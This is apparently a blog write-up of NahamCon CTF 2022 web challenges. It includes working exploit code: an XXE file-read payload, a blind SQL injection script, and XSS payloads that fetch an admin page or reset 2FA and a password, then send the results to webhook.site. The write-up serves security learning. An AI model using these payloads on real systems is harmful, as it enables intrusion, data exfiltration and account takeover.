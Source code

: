 ```yaml
---
title: Nahamconctf 2022
description: From Nahamconctf2022
author: to^
date: 2022-05-01 1:10:00 +0700
categories: [WecSec, CTF]
tags: [xss, xxe, sqli]     # TAG names should always be lowercase
img_path: /assets/img/nahamconctf2022
---
```


Solution for some web challenges

![solvedChallenge](solves.png)
_solved challenges_

## EXtravagant

Upload exp.xml and view it
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "/var/www/flag.txt"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
> flag{639b72f2dd0017f454c44c3863c4e195}
{: .prompt-info  }

___

## Jurassic Park

access `robots.txt`
![Jurassic Park](JurassicPark/flag.png)

___

## Personnel

exploit script:
```py
import requests
import re

TARGET = "http://challenge.nahamcon.com:30349/"

r = requests.post(TARGET, data={"name": "1|(flag.*)|1", "setting":0})

flag = re.search(r"<li>(flag.*)</li>", r.text).group(1)
print("[-] FLAG: " + flag)
```

> flag{f0e659b45b507d8633065bbd2832c627}
{: .prompt-info  }

___

## Flaskmetal Alchemist

From requirements.txt, server uses `SQLAlchemy==1.2.17` and it is vulnerable to [sqli](https://www.cvedetails.com/cve/CVE-2019-7164/).

exploit script:
```py
import requests
import string
TARGET = "http://challenge.nahamcon.com:30378/"
FLAG_LENGTH = 0

# Find flag length
for i in range(30):
    order_by_inject = f"(SELECT CASE WHEN ((SELECT LENGTH(flag) from flag) = {i+1}) THEN atomic_number ELSE symbol END)"
    data = {"search" : "a", "order": order_by_inject}
    r = requests.post(TARGET, data)

    # with this payload, "aotomic number" column will return "89" before "12" if the WHEN condition is true
    if r.text.find("89</td>") > r.text.find("12</td>"):
        FLAG_LENGTH = i+1
        print(f"[-] Flag length: {FLAG_LENGTH}")
        break


# Find flag
FLAG = ""
for i in range(FLAG_LENGTH):
    for c in string.ascii_lowercase + "_}{":
        order_by_inject = f"(SELECT CASE WHEN ((SELECT SUBSTR(flag, {i+1}, 1) from flag) = '{c}') THEN atomic_number ELSE symbol END)"
        data = {"search" : "a", "order": order_by_inject}
        r = requests.post(TARGET, data)
    
        if r.text.find("89</td>") > r.text.find("12</td>"):
            FLAG += c
            print(f"[-] Flag: {FLAG}")
            break
```

> flag{order_by_blind}
{: .prompt-info  }

## Hacker Ts

The page renders text on t-shirts based on POST `text` param.


```js
x=new XMLHttpRequest;
x.onload=function(){
x1=new XMLHttpRequest;
x1.open("GET","https://webhook.site/f61d8f20-bc48-4ae9-805f-3db7a842363b?c="%2bencodeURIComponent(btoa(this.responseText)));
x1.send();
};
x.open("GET","http://localhost:5000/admin");
x.send();
```

webhook receives request:
![result](HackerTs/result.png)
_result_

![flag](HackerTs/flag.png)
_flag_

___

## Two For One

This is a two factor authentication challenge using password and OTP.

The feedback features in `Settings` page is vulnerable to blind XSS

Solve steps: reset 2FA  -> reset admin account's password  -> login as admin -> get flag

### Get new otp auth value

```js
    var x = new XMLHttpRequest();
    x.open('POST', 'http://challenge.nahamcon.com:32084/reset2fa');
    x.setRequestHeader("Content-Type", "application/json");
    x.setRequestHeader("Accept", "application/json");
    x.onload = function() {
        navigator.sendBeacon('https://webhook.site/8771a7aa-4464-438a-84ac-7311eae5bd87', this.responseText);
    };
    x.send();
```

![new otp auth value](TwoforOne/leakotpauth.png)
_otp auth_

### Generate new admin's qr code 

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>QR code page</title>
</head>

<body>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/qrious/4.0.2/qrious.min.js"></script>
    <div class="row">
        <div class="col-12">
            <canvas id="qr" style="margin-right: auto; margin-left: auto;"></canvas>
        </div>
    </div>
    <script>
        var qr = new QRious({
            size: 250,
            element: document.getElementById('qr'),
            value: "otpauth://totp/Fort%20Knox:admin?secret=QFBPNXXUIQ6D3LAD&issuer=Fort%20Knox"
        });
    </script>
</body>
</html>
```

![admin qr code](TwoforOne/generate_admin_qr_code.png)
_new admin qr code_

### Reset admin password
```js
    var x = new XMLHttpRequest();
    x.open('POST', 'http://challenge.nahamcon.com:30223/reset_password');
    x.setRequestHeader("Content-Type", "application/json");
    x.setRequestHeader("Accept", "application/json");
    x.onload = function() {
        navigator.sendBeacon('https://webhook.site/8771a7aa-4464-438a-84ac-7311eae5bd87', this.responseText);
    };
    x.send(JSON.stringify({
        otp: "063517",
        password: "to^",
        password2: "to^"
    }));
```

### Finally, login and view flag

![flag](TwoforOne/flag.png)
_flag_


